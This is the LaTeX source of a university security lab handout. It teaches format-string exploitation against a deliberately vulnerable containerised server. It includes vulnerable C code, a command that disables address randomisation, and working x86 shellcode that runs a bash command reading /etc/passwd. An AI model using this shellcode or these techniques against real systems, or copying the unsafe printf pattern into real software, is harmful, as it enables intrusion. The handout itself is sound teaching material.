%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}

% Arrows
\newcommand{\pointleft}[1]{\reflectbox{\ding{217}} \textbf{\texttt{#1}}}
\newcommand{\pointright}[1]{\ding{217} \textbf{\texttt{#1}}}
\newcommand{\pointupleft}[1]{\reflectbox{\ding{218}} \textbf{\texttt{#1}}}

% Line numbers
\newcommand{\lineone}{\ding{192}\xspace}
\newcommand{\linetwo}{\ding{193}\xspace}
\newcommand{\linethree}{\ding{194}\xspace}
\newcommand{\linefour}{\ding{195}\xspace}
\newcommand{\linefive}{\ding{196}\xspace}
\newcommand{\linesix}{\ding{197}\xspace}
\newcommand{\lineseven}{\ding{198}\xspace}
\newcommand{\lineeight}{\ding{199}\xspace}
\newcommand{\linenine}{\ding{200}\xspace}


% Fancy headers
\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 3rd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

\newcommand{\seedisbook}{\textit{Internet Security: A Hands-on Approach}, 3rd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

\newcommand{\seedcsbook}{\textit{Computer Security: A Hands-on Approach}, 3rd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

\newcommand{\seedcibook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 3rd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website.\xspace}

\newcommand{\seedenvironmentC}{This lab has been tested on the SEED
Ubuntu 20.04 VM. You can download a pre-built image from the SEED website, 
and run the SEED VM on your own computer. However,
most of the SEED labs can be conducted on the cloud, and 
you can follow our instruction to create a SEED VM on the cloud.\xspace}

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website.\xspace}

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend much on the SEED VM. You can do this lab
using other VMs, physical machines, or VMs on the cloud.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\formatFigs}{./Figs}


\lhead{\bfseries SEED Labs -- Format String Attack Lab}


\begin{document}

\begin{center}
{\LARGE Format String Attack Lab}
\end{center}

\seedlabcopyright{2018 - 2020}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}


The \texttt{printf()} function in C is used to print out a string according to a format.  Its
first argument is called \textit{format string}, which defines how the string should be
formatted. Format strings use placeholders marked by the \texttt{\%} character for the
\texttt{printf()} function to fill in data during the printing.  The use of format strings is
not only limited to the \texttt{printf()} function; many other functions, such as
\texttt{sprintf()}, \texttt{fprintf()}, and \texttt{scanf()}, also use format strings. Some
programs allow users to provide the entire or part of the contents in a format string. If such
contents are not sanitized, malicious users can use this opportunity to get the program to run
arbitrary code. A problem like this is called \textit{format string vulnerability}.


The objective of this lab is for students to gain the first-hand
experience on format string vulnerabilities by putting what they have learned 
about the vulnerability from class into actions. 
Students will be given a program with a format string
vulnerability; their task is to exploit
the vulnerability to achieve the following damage: (1) crash the 
program, (2) read the internal memory of the program, (3) modify
the internal memory of the program, and most severely, 
(4) inject and execute malicious code using the victim program's privilege. 
This lab covers the following topics:

\begin{itemize}[noitemsep]
\item Format string vulnerability, and code injection
\item Stack layout
\item Shellcode 
\item Reverse shell 
\end{itemize}


\paragraph{Readings and videos.}
Detailed coverage of the format string attack can be found in the following:

\begin{itemize}
\item Chapter 6 of the SEED Book, \seedbook
\item Section 9 of the SEED Lecture at Udemy, \seedcsvideo
\item The lab also involves reverse shell, which is covered in Chapter 9 of the SEED book.
\end{itemize}


\paragraph{Lab environment.} \seedenvironmentC

\paragraph{Note for instructors.}
Instructors can customize this lab by choosing values
for \texttt{L}. See Section~\ref{sec:vulnerable_program} for details.
Depending on the background of students and the time allocated
for this lab, instructors can also make the
attack on 64-bit programs optional, because it is 
more challenging. The attacks on 32-bit programs are sufficient
to cover the basics of the format-string attacks.

% *******************************************
% SECTION
% *******************************************
\section{Environment Setup} 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Turning off Countermeasure} 

Modern operating systems uses address space
randomization to randomize the starting address of heap and
stack. This makes guessing the exact addresses difficult; guessing
addresses is one of the critical steps of the format-string attack.
To simplify the tasks in this lab, we turn off the address randomization
using the following command: 

\begin{lstlisting}
$ sudo sysctl -w kernel.randomize_va_space=0
\end{lstlisting}


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{The Vulnerable Program}
\label{sec:vulnerable_program}

The vulnerable program used in this lab is called
\texttt{format.c}, which can be found in the \texttt{server-code} folder.
This program has a format-string vulnerability,
and your job is to exploit this vulnerability.
The code listed below has the non-essential information removed,
so it is different from what you get from the lab setup file.

\begin{lstlisting}[label=format:code, 
       caption={The vulnerable program \texttt{format.c} (with non-essential information removed)}]
unsigned int  target = 0x11223344;
char *secret = "A secret message\n";

void myprintf(char *msg)
{
    // This line has a format-string vulnerability
    printf(msg);
}

int main(int argc, char **argv)
{
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);

    myprintf(buf);

    return 1;
}
\end{lstlisting}

The above program reads data from the standard input, 
and then passes the data to \texttt{myprintf()}, 
which calls \texttt{printf()} to print out the data. 
The way how the input data is fed into the \texttt{printf()} function
is unsafe, and it leads to a format-string vulnerability. 
We will exploit this vulnerability. 

The program will run on a server with the root privilege, and its
standard input will be redirected to a TCP connection between the
server and a remote user.
Therefore, the program actually gets its data from a remote user.
If users can exploit this vulnerability, they can cause damages.


\paragraph{Compilation.} 
We will compile the \texttt{format} program into both 32-bit and 64-bit
binaries (for Apple Silicon machines, we only compile the program
into 64-bit binaries). Our pre-built Ubuntu 20.04 VM is a 64-bit VM, but it
still supports 32-bit binaries. All we need to do is to
use the \texttt{-m32} option in the \texttt{gcc} command.
For 32-bit compilation, we also use \texttt{-static} to generate
a statically-linked binary, which is self-contained and not depending
on any dynamic library, because the 32-bit dynamic libraries
are not installed in our containers.

The compilation commands are already provided in \texttt{Makefile}. To compile
the code, you need to type \texttt{make} to execute those commands.
After the compilation, we need to copy the binary into
the \texttt{fmt-containers} folder, so they can be used by the
containers. The following commands conduct compilation and
installation.

\begin{lstlisting}
$ make
$ make install
\end{lstlisting}


During the compilation, you will see a
warning message. This warning is generated by a countermeasure implemented by
the \texttt{gcc} compiler against format string vulnerabilities. We can
ignore this warning for now. 

\begin{lstlisting}
format.c: In function 'myprintf':
format.c:33:5: warning: format not a string literal and no format arguments
                        [-Wformat-security]
   33 |     printf(msg);
      |     ^~~~~~
\end{lstlisting}

It should be noted that the program needs to be compiled using 
the \texttt{"-z execstack"} option, which allows the stack to be 
executable. Our ultimate goal is to inject code into the 
server program's stack, and then trigger the code. 
Non-executable stack is a countermeasure against stack-based 
code injection attacks, but 
it can be defeated using the return-to-libc technique, which 
is covered by another SEED labs. In this lab, for simplicity,
we disable this defeat-able countermeasure. 


\paragraph{For instructors.} 
To make the lab slightly different from the one offered in the past,
instructors can change the value for \texttt{BUF\_SIZE} by requiring
students to compile the server code using a different \texttt{BUF\_SIZE} value.
In \texttt{Makefile}, the \texttt{BUF\_SIZE} value is set by
the variable \texttt{L}. Instructors should pick a value for 
this variable based on the suggestion described in \texttt{format.c}.


\paragraph{The Server Program.}
In the \texttt{server-code} folder, you can find a program called \texttt{server.c}.
This is the main entry point of the server. It listens to port \texttt{9090}.
When it receives a TCP connection, it
invokes the \texttt{format} program, and sets the TCP connection
as the standard input of the \texttt{format} program. This way,
when \texttt{format} reads data from \texttt{stdin}, it actually
reads from the TCP connection, i.e. the data are provided by
the user on the TCP client side. It is not necessary for
students to read the source code of \texttt{server.c}.

We have added a little bit of randomness
in the server program, so different students are likely to see different values
for the memory addresses and frame pointer. The values only change
when the container restarts, so as long as you keep the
container running, you will see the same numbers (the numbers
seen by different students are still different). This randomness
is different from the address-randomization countermeasure. Its sole
purpose is to make students' work a little bit different.


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Container Setup and Commands}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
We provide a pre-built emulator in two different forms: Python code
and container files. The container files are generated from
the Python code, but students need to install the SEED Emulator source
code from the GitHub to run the Python code. The container files
can be directly used without the emulator source code.
Instructors who would like to customize the emulator can modify the Python
code, generate their own container files, and then provide the
files to students, replacing the ones included in the
lab setup file. See the \texttt{README.md} file for instructions. 


\paragraph{Download the emulator files.}
Please download the \texttt{Labsetup.zip} file from the web page, and
unzip it. The files inside the container folder are the actual 
emulation files (container files); they are generated by the Python code.
The name of the container folder is called \texttt{output/} for most labs,
but if a lab has multiple emulators, it will use 
different folder names. The actual names will be given in the lab task.


\paragraph{Start the emulation.}
We will directly use the files in the container folder.
Go to this folder, and run the docker commands
to build and start the containers. We recommend that you run the emulator inside
the provided SEED Ubuntu 20.04 VM, but doing it in a generic Ubuntu 20.04 operating system
should not have any problem, as long as the docker software is installed.
Readers can find the docker manual from
\href{https://github.com/seed-labs/seed-labs/blob/master/manuals/docker/SEEDManual-Container.md}
{\underline{this link}}.
If this is the first time you set up a SEED lab environment
using containers, it is very important that you read 
the user manual. 


In the following, we list some of the commonly
used commands related to Docker and Compose. 
Since we are going to use 
these commands very frequently, we have created aliases for them
in the \texttt{.bashrc} file (in our provided SEEDUbuntu 20.04 VM).

\begin{lstlisting}
$ docker-compose build  # Build the container images
$ docker-compose up     # Start the containers
$ docker-compose down   # Shut don the containers


// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


All the containers will be running in the background. To run
commands on a container, we often need to get a shell on
that container. We first need to use the \texttt{"docker ps"}  
command to find out the ID of the container, and then
use \texttt{"docker exec"} to start a shell on that 
container. We have created aliases for them in
the \texttt{.bashrc} file.

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}


If you encounter problems when setting up the lab environment, 
please read the ``Common Problems'' section of the manual
for potential solutions.



\paragraph{Set the terminal title.} 
We may need to get into several containers using the terminal.
We will likely create several terminal tabs, and switch back
and forth among these tabs. We can easily get lost, because
it is difficult to know which tab runs which container. 
To solve this problem, once we
are inside a container, we can set the terminal title using
one of the following commands (it sets the title to \texttt{"New Title"}).

\begin{lstlisting}
# set_title New Title
# st New Title       (*@\pointleft{st} is an alias of set\_title@*)
\end{lstlisting}



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%





% *******************************************
% SECTION
% *******************************************
\section{Task 1: Crashing the Program}

When we start the containers using the included
\texttt{docker-compose.yml} file, two containers will be
started, each running a vulnerable server. 
For this task, we will use the server running on \texttt{10.9.0.5}, 
which runs a 32-bit program with a format-string vulnerability. 
For Apple Silicon machines, both containers are the same, and 
they both run a 64-bit server program (students can use any one
in this lab).


Let's first send a benign message to this server.
We will see the following messages printed out by the target container (the
actual messages you see may be different).

\begin{lstlisting}
$ echo hello | nc 10.9.0.5 9090
Press Ctrl+C

// Printouts on the container's console
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | Input buffer (address):        0xffffd2d0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Input size: 6
server-10.9.0.5 | Frame Pointer inside myprintf() = 0xffffd1f8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hello
server-10.9.0.5 | (^_^)(^_^) Returned properly (^_^)(^_^)
server-10.9.0.5 | The target variable's value (after):  0x11223344
\end{lstlisting}
 
The server will accept up to \texttt{1500} bytes of the data from you.
Your main job in this lab is to construct different payloads to exploit the format-string 
vulnerability in the server, so you can achieve the goal specified in 
each task. If you save your payload in a file, you can send the payload
to the server using the following command.

\begin{lstlisting}
$ cat <file> | nc 10.9.0.5 9090
Press Ctrl+C  if it does not exit.
\end{lstlisting}

\paragraph{Task.} Your task is to provide an input to the server, such that
when the server program tries to print out the user input in the 
\texttt{myprintf()} function, it will crash. You can tell whether
the \texttt{format} program has crashed or not by looking at the 
container's printout.  If \texttt{myprintf()} returns, 
it will print out \texttt{"Returned properly"} and a few smiley faces.
If you don't see them, the \texttt{format} program has probably crashed.
However, the server program will not crash; the crashed \texttt{format} program
runs in a child process spawned by the server program. 


Since most of the format strings constructed in this lab can be quite long,
it is better to use a program to do that. Inside the \texttt{attack-code} 
directory, we have prepared a sample code called \texttt{build\_string.py}
for people who might not be familiar with Python. It shows how to put 
various types of data into a string. 




% *******************************************
% SECTION
% *******************************************
\section{Task 2: Printing Out the Server Program's Memory}

The objective of this task is to get the server to print out some data 
from its memory (we will continue to use \texttt{10.9.0.5}). 
The data will be printed out on the server side, so
the attacker cannot see it. Therefore, this is not a meaningful
attack, but the technique used in this task will be essential for 
the subsequent tasks. 


\begin{itemize} 
\item \textbf{Task 2.A: Stack Data.}
The goal is to print out the data on the stack.
How many \texttt{\%x} format specifiers do you need so you can get 
the server program to print out the first four bytes of your 
input? You can put some unique numbers (4 bytes) 
there, so when they are printed out, you can immediately tell. 
This number will be essential for most of the subsequent tasks, 
so make sure you get it right. 


\item \textbf{Task 2.B: Heap Data} 
There is a secret message (a string) stored in the heap area, and you can find 
the address of this string from the server printout. 
Your job is to print out this secret message. 
To achieve this goal, you need to place the address (in the binary form) 
of the secret message in the format string.

Most computers are small-endian machines, so to store
an address \texttt{0xAABBCCDD} (four bytes on a 32-bit machine) in memory, 
the least significant byte \texttt{0xDD} is stored in the lower address,
while the most significant byte \texttt{0xAA} is stored in the higher 
address. Therefore, when we store the address in a buffer, we need to 
save it using this order: \texttt{0xDD}, \texttt{0xCC}, \texttt{0xBB}, and 
then \texttt{0xAA}. In Python, you can do the following:

\begin{lstlisting}
number  = 0xAABBCCDD
content[0:4]  =  (number).to_bytes(4,byteorder='little')
\end{lstlisting}
     
\end{itemize} 





% *******************************************
% SECTION
% *******************************************
\section{Task 3: Modifying the Server Program's Memory}

The objective of this task is to modify the value of the 
\texttt{target} variable that is defined in the 
server program (we will continue to use \texttt{10.9.0.5}). 
The original value of \texttt{target} is \texttt{0x11223344}. 
Assume that this variable holds an important value, which can affect the 
control flow of the program. If remote attackers can change its value, 
they can change the behavior of this program. We have three sub-tasks. 

\begin{itemize} 
\item \textbf{Task 3.A: Change the value to a different value.}
In this sub-task, we need to change the content of the \texttt{target} variable
to something else. Your task is considered as a success if you can change it to a
different value, regardless of what value it may be. The address of 
the \texttt{target} variable can be found from the server printout. 


\item \textbf{Task 3.B: Change the value to \texttt{0x5000}.}  
In this sub-task, we need to change the content of the \texttt{target} variable
to a specific value \texttt{0x5000}. Your task is considered as 
a success only if the variable's value becomes \texttt{0x5000}. 


\item \textbf{Task 3.C: Change the value to \texttt{0xAABBCCDD}.}  
This sub-task is similar to the previous one, except that the target value is 
now a large number. In a format string attack, this 
value is the total number of characters that
are printed out by the \texttt{printf()} function; printing out 
this large number of characters may take hours. You need to use a faster approach. The 
basic idea is to use \texttt{\%hn} or \texttt{\%hhn}, instead of \texttt{\%n}, so we can modify 
a two-byte (or one-byte) memory space, instead of four bytes. Printing out
$2^{16}$ characters does not take much time. More details 
can be found in the SEED book.
\end{itemize} 



% *******************************************
% SECTION
% *******************************************
\section{Task 4: Inject Malicious Code into the Server Program}

Now we are ready to go after the crown jewel of this attack, code injection. 
We would like to inject a piece of malicious code, in its binary format, 
into the server's memory, and then use the format string vulnerability 
to modify the return address field of a function, so when the function returns, 
it jumps to our injected code. 

The technique used for this task is similar to that in the previous task:
they both modify a 4-byte number in the memory. The previous task
modifies the \texttt{target} variable, while this task modifies the return
address field of a function. Students need to figure out the address
for the return-address field based on the information printed out 
by the server. 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Understanding the Stack Layout} 

\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\formatFigs/StackLayout.pdf}
\end{center}
\caption{The stack layout when \texttt{printf()} is invoked 
from inside of the \texttt{myprintf()} function.}
\label{format:fig:stacklayout}
\end{figure}

To succeed in this task, it is essential to understand the stack layout when
the \texttt{printf()} function is invoked inside \texttt{myprintf()}. 
Figure~\ref{format:fig:stacklayout} depicts the stack layout. 
It should be noted that we intentionally placed a dummy stack frame between
the \texttt{main} and \texttt{myprintf} functions, but it is not shown in the
figure. Before working on this task, students need to
answer the following questions (please include your answers
in the lab report): 


\begin{itemize}[noitemsep]
\item \textbf{Question 1:}  What are the memory addresses at the locations marked by
\ding{203} and \ding{204}?

\item \textbf{Question 2:} How many \texttt{\%x} format specifiers do we 
need to move the format string argument pointer to \ding{204}? Remember, 
the argument pointer starts from the location above \ding{202}. 
\end{itemize} 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Shellcode} 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% This file is used by the following labs. Please check 
% these labs if changes are made here, so they don't cause
% problems to those labs:
%     - Buffer_Overflow_Server
%     - Format_String
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


Shellcode is typically used in code injection attacks.
It is basically a piece of code that launches a shell, and
is usually written in assembly languages.
In this lab, we only provide the binary version of a generic shellcode,
without explaining how it works, because it is non-trivial.
If you are interested in how exactly shellcode works, and
want to write a shellcode from scratch, you
can learn that from a separate SEED lab called \textit{Shellcode Lab}.
Our generic shellcode is listed in the following. We only list
the x86 version (32-bit); the amd64 and arm64 versions of shellcode
are similar. 

\begin{lstlisting}[language=python]
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"                                                     (*@\ding{202}@*)
   "-c*"                                                            (*@\ding{203}@*)
   "/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd        *"    (*@\ding{204}@*)
   # The * in this line serves as the position marker         *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
\end{lstlisting}

The shellcode runs the \texttt{"/bin/bash"} shell program (Line~\ding{202}),
but it is given two arguments, \texttt{"-c"} (Line~\ding{203}) and
a command string (Line~\ding{204}). This indicates that the shell program
will run the commands in the second argument.
The \texttt{*} at the end of these strings is only a placeholder,
and it will be replaced by
one byte of \texttt{0x00} during the execution of the shellcode. 
Each string needs to have a zero at the end, but we cannot put 
zeros in the shellcode. Instead, we put a placeholder at the end of each string, 
and then dynamically put a zero in the placeholder during the 
execution. 

If we want the shellcode to run some other commands,
we just need to modify the command string in Line~\ding{204}.
However, when making changes, we need to
make sure not to change the length of this string, because the
starting position of the placeholder for the \texttt{argv[]} array,
which is right after the command string,
is hardcoded in the binary portion of the shellcode. If
we change the length, we need to modify the binary part.
To keep the star at the end of this string at the same position,
you can add or delete spaces.



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Both 32-bit and 64-bit versions of shellcode are included in 
the \texttt{exploit.py} inside the \texttt{attack-code} folder (for 
Apple Silicon machines, only 64-bit shellcode is included). 
You can use them to build your format strings. 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Your Task} 

Please construct your input, feed it to the server program, and demonstrate that you can
successfully get the server to run your shellcode. 
In your lab report, you need to explain
how your format string is constructed. Please mark on Figure~\ref{format:fig:stacklayout} where 
